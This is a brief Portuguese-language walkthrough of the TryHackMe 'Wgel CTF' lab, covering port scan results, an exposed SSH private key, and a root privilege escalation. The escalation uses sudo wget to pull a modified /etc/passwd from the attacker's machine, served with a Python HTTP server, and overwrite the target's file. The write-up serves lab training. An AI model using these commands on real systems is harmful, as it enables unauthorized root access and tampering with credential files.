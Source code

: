 #ctf
# Wgel CTF
https://tryhackme.com/room/wgelctf

## Recon

### NMAP

    PORT  STATE  SERVICE
    22    open    OpenSSH 7.2p2
    80    http    Apache 2.4.18

### Web

- Ao inspecionar elemento do site, existe um comentário para o usuário "jessie"
- Existe um diretório /sitemap/.ssh com uma chave privada

## Privesc

- O wget executa como root, com isso basta salvar */etc/passwd* na máquina hacker para inserir uma nova senha root, e deixar esse arquivo acessível:

```sh
python3 -m http.server #na máquina hacker
sudo -u root /usr/bin/wget <IP hacker>:8000/passwd -O /etc/passwd #máquina alvo
su root #com a nova senha
```
